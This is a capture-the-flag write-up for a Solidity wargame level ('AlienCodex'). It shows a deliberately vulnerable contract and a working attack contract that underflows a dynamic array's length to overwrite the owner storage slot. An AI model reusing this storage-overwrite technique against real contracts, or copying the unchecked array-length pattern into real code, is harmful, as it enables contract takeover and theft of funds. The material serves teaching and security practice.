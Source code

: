 ## Challenge
~~~
You've uncovered an Alien contract. Claim ownership to complete the level.

  Things that might help

- Understanding how array storage works
- Understanding [ABI specifications](https://solidity.readthedocs.io/en/v0.4.21/abi-spec.html)
- Using a very `underhanded` approach
~~~
## Contract
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```
`

## Solution

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.5.0;

contract Attack {
    AlienCodex private  _target = AlienCodex(0x0BC04aa6aaC163A6B3667636D798FA053D43BD11);
    uint256 public firstElementSlot;
    uint256 public zeroSlotElementIndex;
    bytes32 public content;

    function calc() external {
        firstElementSlot = uint256(keccak256(abi.encodePacked(uint256(1))));
        zeroSlotElementIndex = 0 - firstElementSlot;
        content = bytes32(uint256(uint160(msg.sender)));
    }

    function attack() external {
        _target.revise(zeroSlotElementIndex, content);
    }
}
```

Before we call the `attack()` function of our `Attack` contract, we need to call the `retract()` function of the vulnerable contract. In previous solidity version `arr.length--` was a way to pop a value out of the array (now deprecated). Since the array is of size 0 this would make the size of the array = 2^256 - 1 and since it elements are of size 32 bytes, all storage slots would be used by the array and we can modify the values of all storage slots.
## Key takeaways and useful resources

[State variables in storage](https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html)

